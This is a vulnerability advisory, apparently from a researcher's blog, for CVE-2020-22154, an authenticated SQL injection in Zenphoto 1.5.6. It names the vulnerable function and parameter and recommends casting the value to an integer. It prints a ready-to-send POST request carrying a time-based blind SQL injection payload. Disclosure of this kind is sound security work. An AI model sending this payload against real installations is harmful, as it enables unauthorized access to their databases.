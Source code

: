 ```yaml
---
cve: "CVE-2020-22154"
title: "Authenticated SQL injection in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-12
tags:
- cve
- sql injection
---
```

Zenphoto 1.5.6 was discovered to contain a SQL injection via the `postAlbumSort()` function in `/zp-core/admin-functions.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22154

<hr />

**Description:**  
The function `postAlbumSort()` triggers a SQL query using the POST parameter `order`, unfortunately his value is not sanitized when building the query.

**Details:**  
File: `/zp-core/admin-functions.php`  
Function: `postAlbumSort()`  
Parameter: `order`  

**Payload:**  
```
POST /zp-core/admin-edit.php?page=edit&action=savealbumorder
XSRFToken=bfc6ec5b3fdffce396ca60b824b68e3eb18a5d4c&checkallaction=noaction&newtag_mass_tags_=&massownerselect=admin&order=id%5B2 and (select sleep(5))%23%5D%3Dnull%26id%5B1%5D%3Dnull&update=Save+Order
```

**Recommendation:**  
Cast the value to integer.

**PoC:**  
![cve-2020-22154 Zenphoto sqli](/images/cve-2020-22154.png)
